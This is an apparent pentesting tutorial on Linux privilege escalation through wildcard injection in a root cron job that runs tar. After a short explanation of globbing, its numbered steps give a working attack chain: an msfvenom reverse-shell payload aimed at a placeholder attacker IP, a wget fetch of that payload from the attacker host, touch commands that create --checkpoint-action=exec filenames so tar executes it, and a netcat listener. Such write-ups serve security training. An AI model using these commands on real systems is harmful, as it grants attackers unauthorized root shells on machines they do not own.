










### **Introduction**

When you use a wildcard character (\*) in a command argument, the shell performs a process called filename expansion or globbing. This replaces the wildcard with a space-separated list of all file and directory names in the current directory. You can observe this behavior by executing the command echo \* from your home directory.

### **Wildcards & Filenames**

Linux filesystems allow a wide range of characters in filenames. Because filename expansion occurs before command execution, you can inadvertently pass command-line options (like -h or --help) by creating files with these names. Here’s an example to illustrate this:

```bash
$ ls *
$ touch ./-l
$ ls *
```

Filenames aren't limited to simple options like -h or --help. You can also create filenames that correspond to more complex options, such as --option=key=value. Tools like GTFOBins can help you find commands with useful command-line options for such purposes.

### **Steps to Identify and Exploit Wildcard Vulnerabilities**

1.  By Running LinPEAS reveals a cron job running every minute as root, executing a script in /usr/local/bin using the absolute path.  
    
    

    **NOTE:** Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions on the /usr/local/bin/ directory to determine if we can write to it:  
    `ls -l /usr/local | grep "bin"` 

    

    **NOTE:** The bin directory is owned by root and the staff group. Our user has only read and execute permissions.
    
3.  However, Despite not having write permissions, we can still exploit this cron job by examining the script:  
    `ls -la /usr/local/bin/compress.sh`

    

    **NOTE:** I guess that means we won’t be able to exploit this cron job since we don't write have permissions to compress.sh script
    
4.  Actually – not true at all! We definitely still can exploit this cron job!  
    `cat /usr/local/bin/compress.sh`  
    
    

    **NOTE:** When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
    
5.  The tar command is run with a wildcard in the /home/user directory.  
    `ls -l /home | grep "user"`  

    

    **NOTE:** This confirms that our current user does have write permissions in the /home/user directory!
    
6.  GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.  
    
    
    
7.  we can use msfvenom to craft a reverse shell ELF payload  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f elf -o shell.elf`  
    
    

    **NOTE:** we can create files that are named different switches, and tar will execute them when it compresses everything in the directory.
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/shell.elf -O /home/user/shell.elf`  
    
    
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod +x /home/user/shell.elf`
    
10. Lets Create two files in the /home/user directory:  
    `touch /home/user/--checkpoint=1 && touch /home/user/--checkpoint-action=exec=shell.elf`  
    
    
    
11. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    